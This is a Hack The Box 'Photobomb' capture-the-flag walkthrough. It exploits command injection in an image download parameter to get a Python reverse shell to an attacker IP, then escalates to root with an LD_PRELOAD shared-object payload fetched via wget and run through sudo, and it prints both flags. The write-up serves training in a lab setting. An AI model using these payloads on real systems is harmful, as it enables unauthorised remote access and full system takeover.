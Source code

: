 # Photobomb HTB - Easy
## Itay Nafrin | October 17th

### IP = 10.10.11.182

### NMAP 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx/1.18.0 (Ubuntu)
|http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Web Enum
View the source and enter into the photobomb.js file the you will see the credentials to enter the /printr directory.
view-source:http://photobomb.htb/photobomb.js
input this url: http://pH0t0:b0Mb!@photobomb.htb/printer

After Entering /printer you can see you can download images and when you intercept the download with Burp you can see parameters like "photo", "filetype" and "dimensions" so you can test for code injection by pinging your Host(tun0) like so:
`photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=png;ping -c 2 10.10.14.153&dimensions=1000x1500`
right before you forward this request you need to intercept the traffic with tcpdump or simillar tools: 
`tcpdump -nni tun0`
now forward the request and see:
```
13:57:54.357293 IP 10.10.14.153.40174 > 10.10.11.182.80: Flags [FP.], seq 2263875648:2263875789, ack 4179447807, win 501, options [nop,nop,TS val 3536004392 ecr 421206325], length 141: HTTP: GET /printer/8452 HTTP/1.1
13:57:54.357399 IP 10.10.14.153.52626 > 10.10.11.182.80: Flags [FP.], seq 3999878915:3999879057, ack 1872341067, win 501, options [nop,nop,TS val 3536004392 ecr 421206313], length 142: HTTP: GET /printer/18498 HTTP/1.1
```
that means it worked and it's pinging.
now let's just input a reverse shell.


`photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=png;python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.153",9999))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b'&dimensions=1000x1500`

```
$ rlwrap -cAr nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.153] from (UNKNOWN) [10.10.11.182] 57882
/bin/sh: 0: can't access tty; job control turned off
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:home/wizard/photobomb$ cd ..
wizard@photobomb:home/wizard$ whoami && id && cat user.txt
wizard
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

<strong>296d07dd9715235c6e0c5659382be884</strong>

### Priv Esc

```

$ sudo -l 
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

LD_PRELOAD can be invoked with sudo, let’s create a simple PE shell to exploit this
(Attacker)$ cat shell.c

```
```

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}

```

Copy this C program and then compile it with gcc.

```
(Host)$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
(Host)$ python3 -m http.server 80
(Target)/home/wizard$ wget http://10.10.14.153/shell.so
(Target)$ sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh
/home/wizard# whoami && id && cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
```
<strong>feb2632bd0ba4a114568a9bd2c191950</strong>




